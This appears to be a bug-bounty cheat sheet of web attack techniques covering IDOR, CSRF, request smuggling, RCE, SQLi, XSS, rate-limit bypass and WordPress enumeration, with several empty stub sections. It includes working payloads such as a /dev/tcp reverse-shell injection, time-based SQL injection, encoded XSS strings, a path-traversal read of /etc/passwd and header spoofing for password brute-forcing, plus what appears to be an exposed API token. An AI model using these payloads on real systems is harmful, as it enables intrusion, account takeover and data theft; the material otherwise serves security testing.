 <details>
	<summary>IDOR</summary>
	
    1- Look for id everywhere
    
    2- Play with hash/encoded values
    
    3- Change The ID's in the request 
    
    4- Upload the profile photo for another user
    
    5- Try change/View data of another user
    
    6- Do something with your email then change it in Burp

    7- Add parameter IDs to requests that don’t have them 

    8- Try replacing parameter names

    9- Try changing the requested file type 
    	GET /user_data/2341 --> 401 Unauthorized
	GET /user_data/2341.json --> 200 OK
    
    10- Try using an array {“id”:19} → {“id”:[19]}

    11- Wildcard ID /api/users/*

    12- check for session cookies if has httponly flag

    13- use the inspector of Burp Repeater to play with id's

    14- use https://jwt.io

    15- create two accounts and save both jwt data and try change between them

    16- detect each cookie and see where it being used

    17- Gather POST & GET and test every CRUD

    18- change HTTP method
	GET /users/delete/victim_id  ->403
	POST /users/delete/victim_id ->200

    19- 


 
  
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Broken Access Control</summary>

	1- Test some Graphql operations with different user roles and see what this operation do
 	2- Check the role of every user and try upgrade your role by urself
  	3- try any unauth behavior like :
   		- member delete admin
     		- member send invites using the invite request
       		- member outside the comapny try any action 
	------------------------------------------------
 	- Wildcard -> GET /users/id -> GET /users/*
	------------------------------------------------
	- Content-Type: application/xml 
	- Content-Type: application/json
	------------------------------------------------
 	- 




 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CSRF</summary>

	Generate POC using LazyCSRF in BurpSuite
	=================================================
	FIRST SCENARIO: 
  	1- Login as Attacker and intercept any function like change email, pass, logout...etc
   	2- Genereate CSRF poc with that reqeust
    	3- login as Victim in another browser
     	4- open the CSRF poc in victim browser if did the function then it's a bug
  	
   	=================================================
	SECOND SCENARIO: The Token is tied to non-session cookie
 		if the token tied to an attribute in the request 
 	1- intercept the request of user1 change email,username..etc
  	2- Genrate POC 
   	3- get the CSRF key and attribute value of user2
    	4- 

    	=================================================
   	- Remove the token and leave the parameter empty
  	- Try use another user CSRF token
   	- Change the request method to get and remove the token
    	- Add Ayhaga to the real CSRF token 
     	- Dynamic chars in CSRF token manipulate
	- try delete referrer
 	- Referrer: https://target.com/https://evil.com
  	

 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CORS</summary>

	- Try manipulate the origin header -> Origin:attacker.com or Origin:null or Origin:attacker.target.com or Origin:target.attacker.com
 		- If origin is reflected in response means the target is vuln to CORS

	- 
  
</details>


-----------------------------------------------------------------------------

<details>
	<summary>Logic Bugs</summary>
	
    1- Try change the price or quantity of item
    
    2- Multiple booking for one room
    
    3- Place order without verify stock level
    
    4- Use coupons or bounus more than one time
    
    5- Check the difference bettween Front-end & Burp request
    
    6- Try creating more than one from the same block 

    7- Check for all posible IF statements and try to bypass it

    8- A user gains access to restricted features they shouldn't have access to.

    9- Try access files after deletion using the link of this file 

    10- Make changes in the source code disabled -> enabled / hidden -> flex

    11- Delete comment with report https://shahjerry33.medium.com/business-logic-errors-a-new-look-3b18d9c2a12f

    12- 
      
		
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Open Redirect</summary>

	- Look for: 
 		redirect=, redir=, next=, url=, u=,
   		dest=, destination=, forward=, return=, 
   		RelayState=, goto=, callback=, continue=

	- Dorks: 
 		site:example.com inurl:redirect=
		site:example.com inurl:url=
		site:example.com inurl:next=
		site:example.com inurl:%3Dhttp
		site:example.com inurl:%3D%2F
		inurl:"redirect=" OR inurl:"url=" OR inurl:"to=" OR inurl:"out="
		site:target.com inurl:"redirect=" OR inurl:"url=" OR inurl:"next=" OR inurl:"to="
		site:target.com filetype:js intext:"redirect" OR intext:"window.location"
		inurl:"redirect.php?url=" OR inurl:"out.php?to=" OR inurl:"go.php?url="
		site:target.com inurl:"search?q=" "redirect"
		site:target.com ext:conf OR ext:ini OR ext:log "redirect"
		site:target.com inurl:"shorturl=" OR inurl:"go=" OR inurl:"r="
		site:target.com inurl:"api" "redirect_uri="
		site:target.com intext:"has been moved" OR intext:"redirecting to"
		site:github.com "redirect_uri=" "target.com"
		https://target.com/redirect.php?url=https://evil.com


	


     
  
</details>


-----------------------------------------------------------------------------

<details>
	<summary>HTTP Request Smuggling</summary>

	https://deepstrike.io/blog/what-is-http-request-smuggling

    Attack Types: 
    -------------
    
	1- CL.TE: The attacker adds both CL-[Content-Length] & TE-[Transfer-Encoding]
 	        --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: vuln.target.com
	     	|	Content-Length: 6
	       	|	Transfer-Encoding: chunked
		|	
	  	|	0\r\n
	    	|	\r\n
	      	|	G
		--------------------------------
	- Front-end deal with CL &&& Back-end deal with TE
	RESPONSE : then the victim do a normal request but the last content appears in this request
 		--------------------------------
	   	|	GPOST / HTTP/1.1
	   	|	Host: normal.target.com
		--------------------------------

	------------------------------------------------------------------------------------------------------------------
	2- TE.CL :

		 --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: vuln.target.com
	     	|	Content-Length: 3
	       	|	Transfer-Encoding: chunked
		|	
	  	|	8
	    	|	SMUGGLED
	      	|	0
		--------------------------------
 
 	- Fron-end deal with TE && Back-end deal with CL
  	RESPONSE: 
   		--------------------------------
	   	|	SMUGGLED
     		|	0
     		|	POST / HTTP/1.1
	   	|	Host: normal.target.com
		--------------------------------
	------------------------------------------------------------------------------------------------------------------

    Exploits: 
    ---------	
     1- Open Redirect:
       		 --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: victim.com
	     	|	Content-Length: 117
	       	|	Transfer-Encoding: chunked
		|	
	  	|	0 
    		|	
	    	|	GET / HTTP/1.1
      		|	Host: attacker.com
	 	|	Content-Type: application/x-www-form-urlencoded
   		|	Content-Length: 10
      		|
	      	|	x=
		|
		--------------------------------

 	---------------------------------------------------------------------------------



 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>RCE</summary>

	1- Injection in json file 
 		{
   		   "username":" `touch ayfile.txt` ",
		   "password":"test"
		}
  	We establish a connection using ntcat then inject command in the json to get this connection
     --------------------------------------------------------------------------------------------------
     2- GET /calculator?calc="__import__('os').system('ls')"
     --------------------------------------------------------------------------------------------------
     3- use ; 
     		GET /download?url="google.com;bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
     --------------------------------------------------------------------------------------------------
     4- GET /vulnerable-endpoint?cmd=whoami
	GET /vulnerable-endpoint?cmd=sleep+5
  
		
     
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Race Condition</summary>

    1- 
 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>GraphQL API</summary>

	graphw00f Tool 
  	InQL Tool in BurpSuite
 	Clairvoyance Tool to brute-force GraphQL
 
 
 	/graphql
	/graphiql
	/graphql.php
	/graphql/console
	/api
	/api/graphql
	/graphql/api
	/graphql/graphql
	/v1/graphql
	/v2/graphql
	/graphql/v1
	/graphql/v2
	/gql
	/graphql-playground
	/playground
	/altair
	/query
	/graphql/query
	/graphql-explorer
	/api/v1/graphql
	/api/v2/graphql
	/public/graphql
	/private/graphql
	/internal/graphql 




 

</details>

-----------------------------------------------------------------------------

<details>
	<summary>Rate Limit</summary>

 	rate limit 
	1- no rate limit on login page 
	2- no rate limit on internal password
	3- no rate limit on sending reset password link 
	4- no rate limit on OTP or 2FA => account takeover
	5- no rate limit on contact us page 
	6- no rate limit on comments 
	7- no rate limit on reports of comments
	8- no rate limit on port 22
 	9- no rate limit on create users account lead to massive accounts created
	
	------------
	bypass rate limit by adding headers 
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	------------------------------------------
	POST /login.php HTTP/1.1
	Host: target.com
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	
	username=admin&password=$fuzz$
	-------------------------------------------
	429 => 403 
	bypass rate limit 
	
	ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ"  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"`
	
	403 


</details>

-----------------------------------------------------------------------------


<details>
## <summary>check sql injection in php</summary>
    
    1- first let's gather parameters 
    # arjun -i php.txt | tee -a parameters.txt
    2- after knowing parameters like id then full url would be 
    https://example.com/file.php?id=*
    3- use sqlmap 
    # sqlmap -u "~~https://example.com/file.php?id=*~~" --dbs --banner --batch --random-agent
    
 </details>   


-----------------------------------------------------------------------------


    
<details>
## <summary>SQLI</summary>

    id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'

	username:’ — ‘/” — “
	password:’ — ‘/” — “
</details>


-----------------------------------------------------------------------------

<details>
	<summary>XSS</summary>

 
	
	dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
	dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 			Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 

	-----------------------------------------------------------------------------------------------
	
	echo "domain.com" | gau | kxss | grep ">"
	
	paramspider --domain domain.com
	paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
	
	echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
	
	-----------------------------------------------------------------------------------------------
	
	cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
	
	cat domain.txt | kxss

	-----------------------------------------------------------------------------------------------

	Double Decode :
 		%2527%2520onmouseover%253D%2527alert%25281%2529%2527%2520
   		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520autofocus%253D%2527
     		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520
       		%2527%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E

	-----------------------------------------------------------------------------------------------
  	- Click "Live chat" and send a chat message. 
	Itercept the request 
	edit message to <img src=1 onerror='alert(1)'>
	   		
    	-----------------------------------------------------------------------------------------------



</details>



------------------------------------------------------------------------------------------------------

<details>
## <summary>hacking WordPress</summary>
    
    
    wpscan --url [https://target.com](https://target.com/) --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
    wordpress usernames exposure :
    /wp-json/wp/v2/users
    /author-sitemap.xml
    /wp-content/debug.log
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    	
    /wp-login.php?action=register
    /wp-json/?rest_route=/wp/v2/users/
    /wp-json/?rest_route=/wp/v2/users/n

</details>

-----------------------------------------------------------------------------



<details>
	<summary>PHP</summary>
</details>



-----------------------------------------------------------------------------

<details>
	<summary>Subdomain Takeover</summary>

	- subjack -w <Subdomain List> -o results.txt -ssl -c fingerprints.json
 	- subzy 

   	
 
</details>

-----------------------------------------------------------------------------

